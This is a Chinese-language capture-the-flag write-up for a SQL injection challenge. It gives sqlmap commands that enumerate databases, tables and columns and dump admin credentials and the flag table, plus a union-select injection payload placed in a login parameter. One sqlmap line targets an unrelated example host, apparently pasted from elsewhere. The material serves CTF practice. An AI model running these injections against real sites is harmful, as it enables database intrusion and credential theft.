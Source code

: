 # 问题

注入注入注入～～

解题链接： http://ctf4.shiyanbar.com:8080/6/

# WriteUp

看了下面讨论区，知道有个：

```shell
http://ctf4.shiyanbar.com:8080/6/admin/
```
http://ctf5.shiyanbar.com/423/web/?id=
OK，要求我们用注入爆出用户名和密码

试了一下?id=1 and 1可以成功

于是就可以来盲注猜测用户名和密码的，根据admin那个页面猜用户名是usr，所以开始了：

```shell
http://ctf4.shiyanbar.com:8080/6/?id=1 and len("usr") > 5
```

其实这只是判断字符串usr的长度而已，不能这样搞，得先得到表名和字段名

用SQLmap跑一下，开Kali Linux：

注意得放url `http://ctf4.shiyanbar.com:8080/6/?id=0`，要不然跑半天跑不出来，依次跑库名、表名、列名，语句分别为：

当前数据库名：

```shell
sqlmap -u http://ctf4.shiyanbar.com:8080/6/?id=0 --current-db
```

获取所有数据库名称,输入：

```shell
sqlmap -u http://ctf4.shiyanbar.com:8080/6/?id=0 --dbs
```

获取当前数据库内所有表名称,输入：

```shell
sqlmap -u http://ctf4.shiyanbar.com:8080/6/?id=0 --tables
```

获取admin表内的列名,输入:

```shell
sqlmap -u http://ctf4.shiyanbar.com:8080/6/?id=0 -T admin --columns
```

获取name和password内的账户密码,输入：

```shell
python sqlmap.py -u "http://www.test.com/Art_Show.php?id=2"  -D mys -T zzcms_admin -C name,password --dump
```

但是跑出来的2个admin表，只能知道用户名是admin，剩下的无能为力了。

参考Write Up用到的一个注入，没看懂[http://www.shiyanbar.com/ctf/writeup/427](http://www.shiyanbar.com/ctf/writeup/427)：

```shell
http://ctf4.shiyanbar.com:8080/6/admin/?usr=admin' and 1=2 union SELECT NULL,NULL,NULL from admin &pwd=1
```

总之可以获得表名CTFS_FLAG，再跑一下key字段的值就行了：

```shell
sqlmap -u http://ctf4.shiyanbar.com:8080/6/?id=0 -T CTFS_FLAG -C key --dump
```

最终结果：`{ctfgoodjob!}`
